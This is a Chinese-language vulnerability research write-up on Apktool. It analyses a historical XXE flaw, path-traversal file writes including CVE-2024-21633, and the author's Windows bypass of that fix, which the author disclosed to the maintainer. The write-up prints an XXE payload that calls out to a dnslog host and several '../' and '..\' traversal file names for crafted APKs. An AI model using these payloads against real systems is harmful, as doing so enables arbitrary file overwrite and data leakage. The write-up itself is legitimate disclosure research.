


# Apktool 安全性研究 - 先知社区

Apktool 安全性研究

- - -

## 简介

项目地址 [https://github.com/iBotPeaches/Apktool](https://github.com/iBotPeaches/Apktool)

> 做过 Android 逆向应该都知道这个工具吧 ....不再赘述了

本文会分析 Apktool 的历史漏洞，并且基于研究结果发现新的 apktool 漏洞

## 历史漏洞

### XML 外部实体漏洞 XXE

这个漏洞是 Apktool 在解析 AndroidManifest.xml 文件时，不会禁用外部实体引用，导致存在 XML 外部实体注入攻击 (XXE) 漏洞  
回退版本至 2.2.2 499c2f9039ba55c2bbc4ab7dc7b28c6e6cb78d92  
先生成一个正常的 APK，apktool decode 之后修改 AndroidManifest.xml  
添加

> <!DOCTYPE manifest [<!ENTITY xxe SYSTEM '\[https://target/sayhi;'>\]>](https://www.beautifulz.top:10004/sayhi;'%3E]%3E)  
> &xxe;

不过我这里回编译的时候会报错 orz，直接去看漏洞代码吧，漏洞代码的具体位置在 fixingPublicAttrsInProviderAttributes 方法  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705638320958-cc7ad816-6077-4a29-88eb-b2d119ce7365.png#averageHue=%23202227&clientId=u149252e1-0fd9-4&from=paste&height=262&id=ue4f23dc4&originHeight=393&originWidth=777&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=55980&status=done&style=none&taskId=u86449f9e-79ee-4c5c-a012-2773c3c92c7&title=&width=518)  
解析文件是

```plain
Document doc = loadDocument(file);
```

内部实现为

```plain
private static Document loadDocument(File file)
            throws IOException, SAXException, ParserConfigurationException {

    DocumentBuilderFactory docFactory = DocumentBuilderFactory.newInstance();
    DocumentBuilder docBuilder = docFactory.newDocumentBuilder();
    return docBuilder.parse(file);
}
```

可以发现此处就是直接对 AndroidManifest.xml 文件进行解析，并没有禁用外部实体  
修复之后的代码变成了

```plain
public static Document loadDocument(File file)
            throws IOException, SAXException, ParserConfigurationException {

    DocumentBuilderFactory docFactory = DocumentBuilderFactory.newInstance();
    docFactory.setFeature(FEATURE_DISABLE_DOCTYPE_DECL, true);
    docFactory.setFeature(FEATURE_LOAD_DTD, false);

    try {
        docFactory.setAttribute(ACCESS_EXTERNAL_DTD, " ");
        docFactory.setAttribute(ACCESS_EXTERNAL_SCHEMA, " ");
    } catch (IllegalArgumentException ex) {
        LOGGER.warning("JAXP 1.5 Support is required to validate XML");
    }

    DocumentBuilder docBuilder = docFactory.newDocumentBuilder();
    // Not using the parse(File) method on purpose, so that we can control when
    // to close it. Somehow parse(File) does not seem to close the file in all cases.
    try (FileInputStream inputStream = new FileInputStream(file)) {
        return docBuilder.parse(inputStream);
    }
}
```

其中这部分代码进行了安全限制，禁止了在 AndroidManifest.xml 中对 DOCTYPE 的引入

```plain
docFactory.setFeature(FEATURE_DISABLE_DOCTYPE_DECL, true);
docFactory.setFeature(FEATURE_LOAD_DTD, false);

try {
    docFactory.setAttribute(ACCESS_EXTERNAL_DTD, " ");
    docFactory.setAttribute(ACCESS_EXTERNAL_SCHEMA, " ");
} catch (IllegalArgumentException ex) {
    LOGGER.warning("JAXP 1.5 Support is required to validate XML");
}
```

2.2.2 这里的 XXE 是需要 build apk 的时候才能触发 那能够在 decode 的时候触发 XXE 吗  
在 thinkycx 师傅的博客里提到了 - [https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html#generated-hash-5](https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html#generated-hash-5)  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705639269639-f9f2b090-8b6f-4c60-9d7c-7d1e8311e8ef.png#averageHue=%238f8e8a&clientId=u149252e1-0fd9-4&from=paste&height=459&id=ubc114732&originHeight=688&originWidth=881&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=104352&status=done&style=none&taskId=u9263309e-7100-4c6e-90b2-a0f458702cb&title=&width=587.3333333333334)  
但是看起来当时应该没有构造出这个恶意 APK  
那么我们是否可以使用 010editor 来构造这个恶意 AndroidManifest.xml 文件，直接生成对应的 APK，让 apktool2.2.2 decode 的时候触发 XXE  
使用 dnslog 来构造恶意 XML，测试之后发现这样是可以触发的

```plain
<!DOCTYPE root [
        <!ENTITY  % dtd  SYSTEM "http://b5g7im.dnslog.cn">
        %dtd;
        %all;
        %send;
        ]>
<resources>
    <string name="app_name">My Application</string>
    <string name="test">
        aaaa
    </string>
</resources>
```

[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705644237232-509ce283-4318-476d-abe6-efeee737991e.png#averageHue=%23d0aa66&clientId=u149252e1-0fd9-4&from=paste&height=313&id=u08a601d9&originHeight=470&originWidth=844&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=36014&status=done&style=none&taskId=u112660b7-878a-4338-b6e6-3340190b336&title=&width=562.6666666666666)  
接下来看怎么用 010editor 把恶意 payload 加进去  
先尝试了一下注释的方式[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705644400064-b2785014-2485-4db8-bd63-c15b4e7bad80.png#averageHue=%232f2e2e&clientId=u149252e1-0fd9-4&from=paste&height=155&id=ua60dcdc2&originHeight=233&originWidth=697&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=14167&status=done&style=none&taskId=u5e68708f-8d6f-42a4-804e-c9940ffdbbf&title=&width=464.6666666666667)  
发现直接没有了  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705644413993-264a34cb-cee9-4f6a-a3bf-bd0569654287.png#averageHue=%233f3e3b&clientId=u149252e1-0fd9-4&from=paste&height=207&id=ubca96e19&originHeight=310&originWidth=1241&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=13401&status=done&style=none&taskId=u984f2612-f0e5-4198-8f0b-9689d75390d&title=&width=827.3333333333334)  
另外 strings.xml 的内容在 010editor 里面查看，并不是连续分布的  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705644640075-2066b4ac-9737-44ea-ab9f-a18e0e01c8b3.png#averageHue=%232a2824&clientId=u149252e1-0fd9-4&from=paste&height=415&id=u47092d0e&originHeight=622&originWidth=1281&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=90180&status=done&style=none&taskId=uc0cdd5a6-621c-4008-b006-c81b3c11a99&title=&width=854)  
所以我们并不能直接去修改这个文件的内容，感觉确实利用不了了

### unknownFiles 路径穿越漏洞

这个漏洞是 Apktool 在 2.2.2 版本以下存在目录穿越漏洞，可以打包一个文件到恶意的 apk 中，在 apktool 解包时造成任意文件写入。如果在 web 环境中，可以用来写 shell

回退版本至 2.2.2 499c2f9039ba55c2bbc4ab7dc7b28c6e6cb78d92

具体的解码 UnknownFiles 在 decodeUnknownFiles

```plain
public void decodeUnknownFiles(ExtFile apkFile, File outDir, ResTable resTable)
            throws AndrolibException {
    LOGGER.info("Copying unknown files...");
    File unknownOut = new File(outDir, UNK_DIRNAME);
    try {
        Directory unk = apkFile.getDirectory();

        // loop all items in container recursively, ignoring any that are pre-defined by aapt
        Set<String> files = unk.getFiles(true);
        for (String file : files) {
            if (!isAPKFileNames(file) && !file.endsWith(".dex")) {

                // copy file out of archive into special "unknown" folder
                unk.copyToDir(unknownOut, file);
                // lets record the name of the file, and its compression type
                // so that we may re-include it the same way
                mResUnknownFiles.addUnknownFileInfo(file, String.valueOf(unk.getCompressionLevel(file)));
            }
        }
    } catch (DirectoryException ex) {
        throw new AndrolibException(ex);
    }
}
```

创建一个恶意的 APK 动态调试分析 名字为../../../aaa，在 2.2 版本下 可以看到 aaa 逃逸了出来  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705570233731-b16fb8a6-ace7-4b0a-ab3c-b98c515b4629.png#averageHue=%232d3034&clientId=ub8a69993-dec9-4&from=paste&height=120&id=u107c7ddf&originHeight=180&originWidth=370&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=12776&status=done&style=none&taskId=ufbda857a-89b0-4306-bbc7-edc29f4a4b0&title=&width=246.66666666666666)  
构建一个测试方法 动态调试寻找答案

```plain
@Test
public void checkUnknowFileDecode() throws AndrolibException, IOException, DirectoryException {
    String apk = "temp/app-debug.apk";

    ApkDecoder apkDecoder = new ApkDecoder(new File(apk));
    apkDecoder.setForceDelete(true);
    apkDecoder.setOutDir(new File(apk + ".out"));
    apkDecoder.decode();
}
```

[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705570607294-75acfda2-43af-4a3f-a97b-8556196c5657.png#averageHue=%2320232a&clientId=ub8a69993-dec9-4&from=paste&height=314&id=u30c515b1&originHeight=471&originWidth=1267&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=98532&status=done&style=none&taskId=u667f6cc7-44bf-449f-8be5-16f05634813&title=&width=844.6666666666666)  
可以看到这里会将不符合这个条件的 unknownfile 复制到 unkownOut 文件夹路径下

> !isAPKFileNames(file) && !file.endsWith(".dex")

unkownOut 路径是 temp\\app-debug.apk.out\\unknown  
判断已知的文件名方法为

```plain
private boolean isAPKFileNames(String file) {
    for (String apkFile : APK_STANDARD_ALL_FILENAMES) {
        if (apkFile.equals(file) || file.startsWith(apkFile + "/")) {
            return true;
        }
    }
    return false;
}
```

所以这里出现路径穿越的原因已经很明显了  
接下来回到 apktool 最新版本，检查这个问题是否真正修复了，新版本中的实现代码为

```plain
private void copyUnknownFiles(File outDir) throws AndrolibException {
    LOGGER.info("Copying unknown files...");
    File unknownOut = new File(outDir, UNK_DIRNAME);
    try {
        Directory unk = mApkInfo.getApkFile().getDirectory();

        // loop all items in container recursively, ignoring any that are pre-defined by aapt
        Set<String> files = unk.getFiles(true);
        for (String file : files) {
            if (!isAPKFileNames(file) && !file.endsWith(".dex")) {

                // copy file out of archive into special "unknown" folder
                unk.copyToDir(unknownOut, file);
                // let's record the name of the file, and its compression type
                // so that we may re-include it the same way
                mApkInfo.addUnknownFileInfo(file, String.valueOf(unk.getCompressionLevel(file)));
            }
        }
    } catch (DirectoryException ex) {
        throw new AndrolibException(ex);
    }
}
```

但是检测代码不在这个里面 而是在

```plain
private void loadAll() {
    mFiles = new LinkedHashSet<>();
    mDirs = new LinkedHashMap<>();

    int prefixLen = getPath().length();
    Enumeration<? extends ZipEntry> entries = getZipFile().entries();
    while (entries.hasMoreElements()) {
        ZipEntry entry = entries.nextElement();
        String name = entry.getName();

        if (name.equals(getPath()) || ! name.startsWith(getPath()) || name.contains(".." + separator)) {
            continue;
        }

        ....
```

关键的检测部分在

> if (name.equals(getPath()) || ! name.startsWith(getPath()) || name.contains(".." + separator)) {

而 separator 是  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705577326471-ce74581d-49ed-4a1c-9b5c-1bdab707df7f.png#averageHue=%23202125&clientId=ub8a69993-dec9-4&from=paste&height=96&id=ubecd556e&originHeight=144&originWidth=555&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=12649&status=done&style=none&taskId=u4257e637-d7d1-4b9e-b742-f10354345be&title=&width=370)  
所以我们立马把 payload 从../../../aaa 改成 ..\\..\\aaaa 来攻击 windows 的设备  
第二处检测的代码在

```plain
public static String sanitizeFilepath(final File directory, final String entry) throws IOException, BrutException {
    if (entry.isEmpty()) {
        throw new InvalidUnknownFileException("Invalid Unknown File");
    }

    if (new File(entry).isAbsolute()) {
        throw new RootUnknownFileException("Absolute Unknown Files is not allowed");
    }

    final String canonicalDirPath = directory.getCanonicalPath() + File.separator;
    final String canonicalEntryPath = new File(directory, entry).getCanonicalPath();

    if (!canonicalEntryPath.startsWith(canonicalDirPath)) {
        throw new TraversalUnknownFileException("Directory Traversal is not allowed");
    }
```

路径经过归一化处理之后

> final String canonicalEntryPath = new File(directory, entry).getCanonicalPath();

变成了 E:\\temp\\Apktool\\brut.apktool\\apktool-lib\\temp\\aaaa  
接下来对比两个路径的开头，在这里是

-   E:\\temp\\Apktool\\brut.apktool\\apktool-lib\\temp\\app-debug.apk.out\\unknown\\
-   E:\\temp\\Apktool\\brut.apktool\\apktool-lib\\temp\\aaaa

很显然是不会相同的，由此会抛出错误，进而跳过该文件的覆盖  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705577656404-e0ff555a-3c74-4b4a-9bac-0dcbb7ccd672.png#averageHue=%2320252e&clientId=ub8a69993-dec9-4&from=paste&height=163&id=u6d6f2422&originHeight=244&originWidth=1164&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=40432&status=done&style=none&taskId=u7dcbceb8-0944-4972-8d3b-c1bcfb73e20&title=&width=776)  
所以这里确实不再存在漏洞了

### CVE-2024-21633 解码时任意文件写入

#### 生成恶意 APK

原作者对于这部分只有只言片语，而网上也没啥复现研究的文章，只能自己摸索生成了  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705412258514-f6b36a89-6ae0-4ad1-933f-5edc794d565a.png#averageHue=%23fefdfb&clientId=u9a7bff8c-533c-4&from=paste&height=149&id=u8c13da13&originHeight=224&originWidth=898&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=19859&status=done&style=none&taskId=u161955a4-a910-462b-a9b4-a71dd5205a3&title=&width=598.6666666666666)  
这里的图片是  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705412280403-b1d1acb9-3204-446e-bcc1-d2f7bc2df493.png#averageHue=%233b3f42&clientId=u9a7bff8c-533c-4&from=paste&id=u6f9b9f73&originHeight=931&originWidth=1332&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u65ef1d4d-e9cd-4898-9707-d5f11455bb5&title=)  
也就是原来的 Android 项目文件目录结构为 res/raw/test，生成的APK经过某种操作之后，AndroidStudio的APK分析器来查看APK信息的时候，就可以看到2、3位置的信息，即Name和default的名字不一致的情况，Name就是我们构造的路径穿越poc  
正常产生的 APK 这里的信息是  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705412457745-6586a232-fb80-413f-add4-a874ec1512e6.png#averageHue=%233b4043&clientId=u9a7bff8c-533c-4&from=paste&height=490&id=ub162be09&originHeight=735&originWidth=1837&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=69735&status=done&style=none&taskId=u06a2cbce-fbb0-494c-afdf-aff6dd07680&title=&width=1224.6666666666667)  
然后进行一通操作，发现即便使用 apktool 进行反编译 修改了之后 apktool 回编译又出现了问题；如果直接使用 zip 软件打开 apk 进行文件的修改后，也不能改变 resources.arsc 里面的值。  
最后使用 010 Editor 实现了效果  
将 APK ZIP 解压缩之后，使用 010 Editor 搜索需要修改的文件名，搜索结果应该是两个，修改没有 res/raw/文件目录的那个  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705412751600-84159df1-abd6-45c7-a23c-3cfb75a90700.png#averageHue=%232a2722&clientId=u9a7bff8c-533c-4&from=paste&height=221&id=u638deef9&originHeight=331&originWidth=707&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=62600&status=done&style=none&taskId=u98f8c993-668a-4990-83f2-ac4e6faedd3&title=&width=471.3333333333333)  
重新将文件夹压缩为 apk  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705412935058-43ea4e81-8b69-4768-bc50-ccec24136212.png#averageHue=%233b3f42&clientId=u9a7bff8c-533c-4&from=paste&height=565&id=u12515f15&originHeight=847&originWidth=1109&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=31102&status=done&style=none&taskId=ud294fdb7-ba74-46dd-a711-982d621c5c2&title=&width=739.3333333333334)  
同样的方法构造恶意 Name ../../../../../../../../../../../../tmp/poc  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705413305202-5011edc8-39bc-4f0a-bb55-d8131c610c44.png#averageHue=%233b3f43&clientId=u9a7bff8c-533c-4&from=paste&height=393&id=u958d2766&originHeight=590&originWidth=1059&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=28365&status=done&style=none&taskId=ue6a0fdfd-c797-484e-aeff-f5d0bc88333&title=&width=706)  
使用 kali apktool 2.9.1 进行复现  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705458988296-b23a36fa-74ec-414c-aea6-cde6dcd5c5f5.png#averageHue=%232a2f3b&clientId=u9a7bff8c-533c-4&from=paste&height=344&id=u0acc7df2&originHeight=516&originWidth=650&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=161115&status=done&style=none&taskId=uf33632b4-181a-437d-a946-ee07358498b&title=&width=433.3333333333333)  
复现没有问题

#### 动态调试

先对问题进行复现，修复 commit 为 d348c43b24a9de350ff6e5bd610545a10c1fc712  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705390821501-c8531fad-cf2b-4e59-9604-5770ef61d9dd.png#averageHue=%2305090f&clientId=u9a7bff8c-533c-4&from=paste&height=271&id=ue8ccf9ad&originHeight=406&originWidth=844&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=27465&status=done&style=none&taskId=ua338469f-242c-4761-bb33-1428de1ecc6&title=&width=562.6666666666666)  
回退

> git reset --mixed 0741664808724bda41744ad3981bac2eec672d1b

编写方法进行 debug

```plain
@Test
public void checkPrint() throws BrutException, IOException {
    LOGGER.info("checkPrint...");
    Config config = Config.getDefaultConfig();
    config.forceDelete = true;

    String apk_path = "temp/source.apk";
    String target_path = new File("").getAbsolutePath() + "/" + apk_path;

    LOGGER.info("currentDirectory "+target_path);
    ApkDecoder apkDecoder = new ApkDecoder(config, new File(target_path));
    File outDir = new File( target_path + ".out");
    apkDecoder.decode(outDir);
```

我们传入恶意 APK 打断点进行分析 apkDecoder.decode(outDir);

```plain
ResourcesDecoder resourcesDecoder = new ResourcesDecoder(mConfig, mApkInfo);

if (mApkInfo.hasResources()) {
    switch (mConfig.decodeResources) {
        case Config.DECODE_RESOURCES_NONE:
            copyResourcesRaw(outDir);
            break;
        case Config.DECODE_RESOURCES_FULL:
            resourcesDecoder.decodeResources(outDir);
            break;
    }
}
```

如果存在 resources.arsc 文件则进行解析 resources

```plain
public boolean hasResources() throws AndrolibException {
    if (mApkFile == null) {
        return false;
    }
    try {
        return mApkFile.getDirectory().containsFile("resources.arsc");
    } catch (DirectoryException ex) {
        throw new AndrolibException(ex);
    }
}
```

最后进入 fileDecoder

```plain
for (ResPackage pkg : mResTable.listMainPackages()) {

    LOGGER.info("Decoding file-resources...");
    for (ResResource res : pkg.listFiles()) {
        fileDecoder.decode(res, in, out, mResFileMapping);
    }

    .......
}
```

漏洞点就在 ResFileDecoder 文件中  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705472746524-ea045030-adeb-46e7-99b1-acd602c8fafb.png#averageHue=%2325282e&clientId=u9a7bff8c-533c-4&from=paste&height=339&id=u0bf8fa91&originHeight=509&originWidth=1539&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=155011&status=done&style=none&taskId=u05ddb0b0-d02b-4553-9330-e5bc8c19cff&title=&width=1026)  
原来资源文件下的 res/raw/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 就会被复制到现实目录下的 res/raw/../../../../../../../../../../../../tmp/poc，实现了任意文件覆盖  
更新到最新版本的 apktool，重新分析 attack.apk  
apktool 新增了一个防御检测的方法

```plain
public static boolean detectPossibleDirectoryTraversal(String entry) {
    if (OSDetection.isWindows()) {
        return entry.contains("..\\") || entry.contains("\\..");
    }
    return entry.contains("../") || entry.contains("/..");
}
```

这里的代码含义是 如果是 windows 环境的话 检测是否在文件名中存在

-   ..\\
-   ..

如果是 Linux 环境的话 检测是否在文件名中存在

-   ../
-   /..

如果检测到了存在敏感关键字的话，就会把 inFileName 传递给 outResName

```plain
if (BrutIO.detectPossibleDirectoryTraversal(outResName)) {
    outResName = inFileName;
    LOGGER.warning(String.format(
        "Potentially malicious file path: %s, using instead %s", res.getFilePath(), outResName
    ));
}
```

而不是获取到的 res.getFilePath()

## 梅开二度

但是仔细看 CVE-2024-21633 这个防御代码 就可以发现其实在 windows 上还是存在漏洞 因为 windows 存在路径兼容，在 windows 设备上面可以使用 ../来绕过上面的防御机制，在stackoverflow上面也有人提到 - [https://stackoverflow.com/questions/7314606/get-directory-separator-char-on-windows-etc](https://stackoverflow.com/questions/7314606/get-directory-separator-char-on-windows-etc) ，如图所示  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705547971656-f279ef47-032b-410f-a2fa-9bd193c0168b.png#averageHue=%23202329&clientId=ub8a69993-dec9-4&from=paste&height=433&id=ucc764b6f&originHeight=650&originWidth=1094&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=120282&status=done&style=none&taskId=u4653ffce-a420-4d18-896e-df16bbe37ab&title=&width=729.3333333333334)  
在 windows 上仍然存在这个漏洞，修复不完全，所以我提给了作者  
[https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-vgwr-4w3p-xmjv](https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-vgwr-4w3p-xmjv)  
具体的利用实现就是 构造了一个新的 poc apk，使用 apktool2.9.2 进行 decode  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705548097002-bd600ba7-46e4-47ff-a6c1-1b1a5f4041d2.png#averageHue=%233b3f42&clientId=ub8a69993-dec9-4&from=paste&height=587&id=u1cd96c34&originHeight=881&originWidth=1053&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=47746&status=done&style=none&taskId=uf8528458-4f70-40ef-9ce4-02735d4d8af&title=&width=702)  
可以看到这个 poc 文件跑了出来  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705548070809-0471f1ef-8c21-458b-91b2-c5ca2875f5a9.png#averageHue=%23131111&clientId=ub8a69993-dec9-4&from=paste&height=531&id=u1536d11f&originHeight=797&originWidth=929&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=58573&status=done&style=none&taskId=u71feec24-3518-4bda-b29c-28ecdf01c05&title=&width=619.3333333333334)

## 参考链接

-   [https://avd.aliyun.com/detail?id=AVD-2024-21633](https://avd.aliyun.com/detail?id=AVD-2024-21633)
-   [https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-2hqv-2xv4-5h5w](https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-2hqv-2xv4-5h5w)
-   [https://research.checkpoint.com/2017/parsedroid-targeting-android-development-research-community/](https://research.checkpoint.com/2017/parsedroid-targeting-android-development-research-community/)
-   [https://juejin.cn/post/7276999034962640956](https://juejin.cn/post/7276999034962640956)
-   [https://github.com/iBotPeaches/Apktool/commit/d348c43b24a9de350ff6e5bd610545a10c1fc712](https://github.com/iBotPeaches/Apktool/commit/d348c43b24a9de350ff6e5bd610545a10c1fc712)
-   [https://github.com/charles2gan/GDA-android-reversing-Tool](https://github.com/charles2gan/GDA-android-reversing-Tool)
-   [https://security.tencent.com/index.php/blog/msg/122](https://security.tencent.com/index.php/blog/msg/122)
-   [https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html](https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html)
-   [https://omasko.github.io/2018/03/17/apktool%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/](https://omasko.github.io/2018/03/17/apktool%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)
